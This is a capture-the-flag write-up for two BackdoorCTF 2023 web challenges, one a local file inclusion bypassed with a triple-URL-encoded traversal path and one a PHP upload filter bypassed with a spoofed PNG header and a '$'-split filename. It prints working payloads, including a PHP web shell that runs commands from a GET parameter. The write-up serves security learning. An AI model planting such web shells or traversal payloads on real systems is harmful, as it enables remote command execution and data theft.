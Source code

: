 ```yaml
---
title: BackDoorCTF 2023 Writeup
---
```

# BackdoorCTF 2023

# Web/Beginner/Secret_of_jackal

## Challenge Overview

Description: I left a message for you. You will love it definitely

Author: j4ck4l :>)

![Index](./images/backdoorctf23/secret/index.png)

We have been given a [website](http://35.222.114.240:8003). It's a simple lfi challenge


Hmm so to understand the functionality more let's see the source code


```python
def ignore_it(file_param):
    yoooo = file_param.replace('.', '').replace('/', '')
    if yoooo != file_param:
        return "Illegal characters detected in file parameter!"
    return yoooo

def another_useless_function(file_param):
    return urllib.parse.unquote(file_param)

def url_encode_path(file_param):
    return urllib.parse.quote(file_param, safe='')

def useless (file_param):
    file_param1 = ignore_it(file_param)
    file_param2 = another_useless_function(file_param1)
    file_param3 = ignore_it(file_param2)
    file_param4 = another_useless_function(file_param3)
    file_param5 = another_useless_function(file_param4)
    return file_param5
```


## Vulnerability Identification

Okay so let's analyse it block by block.

It's a simple page which include local files. So if you try to read flag file which is one directory back as given in the Dockerfile it will give you a message which says `"Illegal characters detected in file parameter!"`

So if we see the code the `useless()` first sanatise the output using `ignore_it()` function and will remove the `/ & .` characters and then url decodes it using `another_useless_function`


## Exploiting the Vulnerability

If you execute this code locally if you encode the file path 2 times it should give you the flag but it will not run on the server.

Because chrome already decodes the url 1 time and then 2 times it will be done by our code so in total 3 times we have to encode the file path.

So our final payload is `%25252E%25252E%25252Fflag%25252Etxt`

## Obtaining the Flag
So after giving the payload you will get the flag

![Flag](./images/backdoorctf23/secret/flag.png)

Flag: **flag{s1mp13_l0c4l_f1l3_1nclus10n_0dg4af52gav}**

# Web/php_sucks

## Challenge Overview

Description: I hate PHP, and I know you hate PHP too. So, to irritate you, here is your PHP webapp. Go play with it. 

Author: j4ck4l :>)

![Index](./images/backdoorctf23/php/index.png)

We have been given a [website](http://35.222.114.240:8002/chal/upload.php). We can see a simple upload form.

Let's try to upload a text file. And the server responds with `File size should be less than 200KB, and only png, jpeg, and jpg are alloweded`

![error1](./images/backdoorctf23/php/error1.png)

Hmm so to understand the functionality more let's see the source code

The code is obfuscated and in a single line, let's use an online beautifier and we get the below source code

```php
<?php 
$allowedExtensions = ["jpg", "jpeg", "png"];
$errorMsg = "";
if (
    $_SERVER["REQUEST_METHOD"] === "POST" &&
    isset($_FILES["file"]) &&
    isset($_POST["name"])
) {
    $userName = $_POST["name"];
    $uploadDir = "uploaded/" . generateHashedDirectory($userName) . "/";
    if (!is_dir($uploadDir)) {
        mkdir($uploadDir, 0750, true);
    }
    $uploadedFile = $_FILES["file"];
    $fileName = $uploadedFile["name"];
    $fileTmpName = $uploadedFile["tmp_name"];
    $fileError = $uploadedFile["error"];
    $fileSize = $uploadedFile["size"];
    $fileExt = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));
    if (in_array($fileExt, $allowedExtensions) && $fileSize < 200000) {
        $fileName = urldecode($fileName);
        $fileInfo = finfo_open(FILEINFO_MIME_TYPE);
        $fileMimeType = finfo_file($fileInfo, $fileTmpName);
        finfo_close($fileInfo);
        $allowedMimeTypes = ["image/jpeg", "image/jpg", "image/png"];
        $fileName = strtok($fileName, chr(7841151584512418084));
        if (in_array($fileMimeType, $allowedMimeTypes)) {
            if ($fileError === UPLOAD_ERR_OK) {
                if (move_uploaded_file($fileTmpName, $uploadDir . $fileName)) {
                    chmod($uploadDir . $fileName, 0440);
                    echo "File uploaded successfully. <a href='$uploadDir$fileName' target='_blank'>Open File</a>";
                } else {
                    $errorMsg = "Error moving the uploaded file.";
                }
            } else {
                $errorMsg = "File upload failed with error code: $fileError";
            }
        } else {
            $errorMsg = "Don't try to fool me, this is not a png file";
        }
    } else {
        $errorMsg =
            "File size should be less than 200KB, and only png, jpeg, and jpg are allowed";
    }
}
function generateHashedDirectory($userName)
{
    $randomSalt = bin2hex(random_bytes(16));
    $hashedDirectory = hash("sha256", $userName . $randomSalt);
    return $hashedDirectory;
} ?>
```


## Vulnerability Identification

Okay so let's analyse it block by block.

It first asks for a file and then it checks the file extension using 
```php
$fileExt = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));
 if (in_array($fileExt, $allowedExtensions) && $fileSize < 200000)
 ....... continued
```
so if the extension is `jpg, jpeg, png` and the file size is less than 200kb it will try to execute further instructions.

Okay then if you pass the extension check we have another check that is the MIME type check. So if you try to fool the server by uploading a file like `exploit.php.png` but the file type is actually a `php` then the server will give you and error --> `Don't try to fool me, this is not a png file`.

![error2](./images/backdoorctf23/php/error2.png)

Okay so let's try to upload a file with the header `png/jpeg/jpg` 

We can do it with a file using `xxd -r -p -o 0 <(echo 8950 4e47 0d0a 1a0a 0000 000d 4948 4452) exploit.php.png`

So if you check the file type now it will bypass the MIME check.

But the problem is if it is uploaded it will be uploaded as exploit.php.png so an image will open so it is not helpful to solve the challenge

## Exploiting the Vulnerability

So to exploit this we will set the header of the file to **PNG**. And then we will inject some php code to exploit the server.

We will name this file as `exploit.php%00.png`. The nullbyte will bypass the checks performed and the name of the file which will be uploaded on the server will be exploit.php as it will ignore the part after the nullbyte.

But here is a twist.

Have a look at this line of code 

```php
$fileName = strtok($fileName, chr(7841151584512418084));
```

if you use php interactive shell you can see the `chr(7841151584512418084)` 

```
php > echo chr(7841151584512418084);
$
php > echo urlencode(chr(7841151584512418084));
%24
```
so the file name will be split by $.

So to exploit this we will create a file `exploit.php%24.png` or `exploit.php$.png` with header of png and content as 

```php
�PNG
^Z
^@^@^@^MIHDR<?php if(isset($_GET['cmd'])) { echo shell_exec($_GET['cmd']); } ?>
```

## Obtaining the Flag
So we will upload the file and the file name which will be uploaded will be `exploit.php` and when we open the file . BOOM we got the shell

let's do rce now and list the files two directories back we get the name of flag file as `s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt`

and now `cat ../../s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt` to read the file.

![Flag](./images/backdoorctf23/php/flag.png) 

Flag: **flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}**

Thank You